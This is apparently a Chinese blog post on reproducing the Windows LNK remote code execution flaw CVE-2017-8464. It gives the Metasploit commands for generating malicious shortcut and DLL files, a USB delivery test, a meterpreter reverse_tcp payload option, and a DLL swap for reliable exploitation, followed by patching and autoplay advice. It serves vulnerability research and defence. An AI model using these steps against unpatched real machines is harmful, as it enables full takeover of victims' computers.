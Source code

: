 ```yaml
---
layout: post
title: Windows Lnk远程代码执行漏洞(CVE-2017-8464)利用测试
---
```



## 0x00 前言
---

北京时间6月14日凌晨，微软发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危。

该漏洞的原理同2010年据称美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的震网病毒（Stuxnet）非常相似，所以也被一些人称为“震网三代”。

然而，通过百度搜索关键词“cve-2017-8464复现”找到的国内一些文章，对该漏洞的复现存在误解，错把通过快捷方式执行powershell代码当作了该漏洞的利用方法。

所以，本文将要纠正这个错误。

并且，目前可供测试的msf利用脚本存在一个bug，漏洞触发后进程explorer.exe崩溃，漏洞利用不够完美。

考虑到距补丁公开日期已经超过45天，所以本文将要公开利用脚本中bug的修复方法，实现该漏洞的“完美利用”。


## 0x01 简介
---

本文将要介绍以下内容：

- 漏洞简介
- 漏洞测试
- bug修复
- 防御

## 0x02 漏洞简介
---

该漏洞是一个微软Windows系统处理LNK文件过程中发生的远程代码执行漏洞。
当存在漏洞的电脑被插上存在病毒木马的U盘时，不需要任何额外操作，漏洞攻击程序就可以借此完全控制用户的电脑系统。
该漏洞也可能籍由用户访问网络共享、从互联网下载、拷贝文件等操作被触发和利用攻击。

也就是说，漏洞可以在以下任一条件下触发：

1、系统开启U盘自动播放功能，插入U盘，漏洞触发
2、通过网络共享访问该文件目录
3、直接访问该文件目录


## 0x03 漏洞测试
---

目前公开渠道可供测试利用的脚本有如下两个：

**1、msf利用脚本**

作者：ykoster

下载地址：https://github.com/rapid7/metasploit-framework/pull/8767

**2、python利用脚本**

作者：nixawk

下载地址：https://github.com/nixawk/labs/blob/master/CVE-2017-8464/exploit_CVE-2017-8464.py

本文着重测试msf脚本，将exp拷贝至U盘，测试通过U盘触发漏洞的利用方法


### 实际测试：

测试系统： kali 2.0

**1、下载msf脚本**

```
cd /usr/share/metasploit-framework/modules/exploits/windows/fileformat/
wget https://raw.githubusercontent.com/ykoster/metasploit-framework/169e00bf3442447324df064192db62cdc5b5b860/modules/exploits/windows/fileformat/cve_2017_8464_lnk_rce.rb
```

**2、生成exp**

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec
set cmd calc.exe
set EXITFUNC thread
exploit
```

**注：**

msf脚本默认对应系统Windows x64，所以payload也选择64位的exec

参数设置如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-1.png)

执行后，在/root/.msf4/local/生成24个利用文件，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-2.png)

kali2.0下无法直接访问该文件夹，可通过命令行将`/root/.msf4/local/`下的所有文件复制到`/root/1`下

命令如下：

`cp -r /root/.msf4/local/ /root/1`

复制文件，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-3.png)

将以上文件复制到U盘，在另一未打补丁的Win7 x64系统测试


**3、测试**

成功执行calc.exe，但是进程explorer.exe崩溃

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-4.png)

**注：**

U盘内的利用脚本可通过格式化U盘删除


接着又分别做了如下测试：

- 测试Win10 x64
- 更换payload： set payload windows/x64/meterpreter/reverse_tcp

依旧是同样的结果

查看github，其他人也遇到了同样的问题，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-5.png)

更多回复见：https://github.com/rapid7/metasploit-framework/pull/8767


**4、更多测试**

尝试测试32位系统

该脚本支持32位系统，切换命令如下：

```
set target 1
set payload windows/exec
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-6.png)

但是测试结果不尽人意，依旧失败

## 0x04 bug修复
---

省略调试过程，直接给出一种最简单的解决方法：**更换dll**

msf利用脚本共生成24个文件，分别为1个dll文件和23个lnk文件

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/3-1.png)

bug产生的原因在于dll，将其换成自己的dll就好

32位可供测试的dll下载地址：

https://github.com/3gstudent/test/blob/master/calc.dll

64位可供测试的dll下载地址：

https://github.com/3gstudent/test/blob/master/calc_x64.dll


不会导致进程explorer.exe崩溃，测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/3-2.png)


插入U盘自动播放触发漏洞的测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/3-3.gif)

至此，bug成功修复


## 0x05 防御
---

### 1、安装补丁

微软官方补丁下载地址：

https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8464

360漏洞补丁修复工具下载地址：

http://b.360.cn/other/stuxnet3fixtool

### 2、关闭U盘自动播放功能

## 0x06 小结
---

本文对CVE-2017-8464的msf利用脚本进行测试，修复其中的bug，在技术层面上，实现对该漏洞的“完美利用”，请勿用于非法用途，在此再次提醒普通用户勤打补丁的必要。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

